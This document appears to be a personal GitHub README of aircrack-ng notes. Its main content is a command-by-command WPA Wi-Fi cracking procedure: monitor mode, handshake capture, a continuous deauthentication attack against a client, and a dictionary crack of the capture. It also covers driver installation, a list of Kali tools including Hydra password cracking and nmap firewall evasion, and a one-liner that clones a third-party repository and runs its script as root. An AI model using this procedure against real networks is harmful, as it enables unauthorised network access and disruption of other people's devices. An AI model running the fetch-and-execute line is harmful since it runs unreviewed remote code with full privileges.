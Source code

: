 # aircrack-ng-

https://www.youtube.com/watch?v=77cWBybyvV4
// this is for quadcomm adapter

iwconfig
ifconfig
airmon-ng check kill
airmon-ng start wlan0
iwconfig
airodump-ng wlan0mon
ctri c
airodump-ng -cX -w capture -d MACADD wlan0mon 
new root
aireplay-ng --deauth 0 -a MACADD -c DEVICEMACADD wlan0mon 
wait for WPA hadshake then stop deauth

ls
wireshark capture-X.cap 
-filter for eapol
airmon-ng stop wlan0mon 
iwconfig 
aircrack-ng capture-X.cap -w /usr/share/dict/words

///////////////////////////////////////////////////////////////////////////////////////////////////////////////

https://github.com/aircrack-ng/rtl8188eus
//instalation 

    sudo apt update
    sudo apt upgrade
    sudo apt-get dist-upgrade
    reboot
    sudo apt-get install linux-headers-$(uname -r)
    sudo apt install bc
    sudo apt-get install build-essential
    sudo apt-get install libelf-dev
    sudo apt install dkms
    sudo rmmod r8188eu.ko
    git https://github.com/drygdryg/rtl8188eus (This works for me joy)
    cd rtl8188eus
    sudo -i
    echo 'blacklist r8188eu'|sudo tee -a '/etc/modprobe.d/realtek.conf'
    reboot
    cd rtl8188eus
    sudo make && make install
    reboot


// enter monitor mode

$ sudo airmon-ng check kill
$ sudo ip link set <interface> down
$ sudo iw dev <interface> set type monitor

//enter manage mode 

$ sudo iw dev <interface> set type managed
service NetworkManager restart 
 ////////////////////////////////////////////////////////////////////////////////////////////////////////////////
 
 Things to do with kali linux
 
 1. nmap for information gathering. In other words, to get insights about the host, its IP address, OS detection, and similar network security details (like the number of open ports and what they are). firewall evasion and spoffing. 
 
 2. WPscan is WordPress security auditing tool.
 
 3. Hydra is for cracking login/password
 
 4. Maltego is an impressive data mining tool to analyze information online and connect the dots (if any). As per the information, it creates a directed graph to help analyze the link between those pieces of data. 

5. Apktook is  reverse engineering Android apps. 

6. Autopsy is a digital forensic tool to investigate what happened on your computer. Well, you can also use it to recover images from SD card. It is also being used by law enforcement officials. You can read the documentation to explore what you can do with it.

7. pyrit 
git clone https://github.com/hacker3983/pyrit-installer && cd pyrit-installer && sudo bash install.sh
